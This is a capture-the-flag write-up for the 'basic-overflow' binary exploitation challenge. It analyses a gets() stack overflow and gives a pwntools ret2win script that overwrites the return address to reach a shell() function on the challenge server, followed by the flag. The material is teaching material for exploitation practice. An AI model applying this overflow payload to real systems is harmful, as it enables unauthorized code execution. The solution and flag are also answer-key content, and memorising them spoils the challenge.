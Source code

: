 # basic-overflow #

## Overview ##

Category: Binary Exploitation


Tags: `#Ret2win #Stack #Overflow #Write-What-Where #Underflow #Overwrite #Win #Flag #Pwntools #Ghidra #Checksec`

## Description ##

This challenge is simple.

It just gets input, stores it to a buffer.

It calls gets to read input, stores the read bytes to a buffer, then exits.

What is gets, you ask? Well, it's time you read the manual, no?

<span style="color:red;">nc 34.123.15.202 5000</span>
## Approach ##

Began by disassembling the `basic-overflow` binary within [Ghidra](https://ghidra-sre.org) and analysing the output.

Also checked the binary security with [pwntools](https://python3-pwntools.readthedocs.io/en/latest/index.html) `checksec` :

    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

Upon examining the disassembled output, we encounter the main() function, which notably includes a call to gets(). This function is notorious for its security vulnerabilities, primarily because it lacks bounds checking for its input size. The relevant section of the code is as follows:

     undefined8 main(void)

      {
      char local_48 [64];
      gets(local_48);
      return 0;
      }

This usage of gets() immediately suggests that the program is susceptible to a buffer overflow attack. This vulnerability arises because gets() does not limit the amount of data read, potentially allowing more data than the allocated buffer size (local_48 in this case, which is 64 bytes) and thus overwriting adjacent memory.

As our analysis progresses, we also discover the shell() function. This function is evidently crafted to execute a shell, as indicated by its implementation:           
    
    void shell(void)

    {
       execve("/bin/sh",(char **)0x0,(char **)0x0);
       return;
    }


    

This is a well-known attack called ret2win in order to trigger the shell function we must firstly overwrite the return address of main() with the address of shell().
That's why we need to find the address of shell() in the binary. We can do this by using Ghidra's symbol tree to search for the function name. The address of shell() is `0x0000000000401136`.
Our offset is 72 bytes(64 bytes for local_48 + 8 bytes for the saved base pointer). We can use pwntools to send the payload to the binary.


## Solution ##



Final `pwntools` script used in the event :

    from pwn import*
 
    r=remote("34.123.15.202",5000)

    offset=72

    shell=p64(0x0000000000401136)
    payload=b"A"*72+shell

    r.sendline(payload)
    r.interactive()

After running the script, we can see that we have a shell. We can then use the `ls` command to list the files in the current directory, and `cat flag` to read the flag.


## Flag ##
`uoftctf{reading_manuals_is_very_fun}`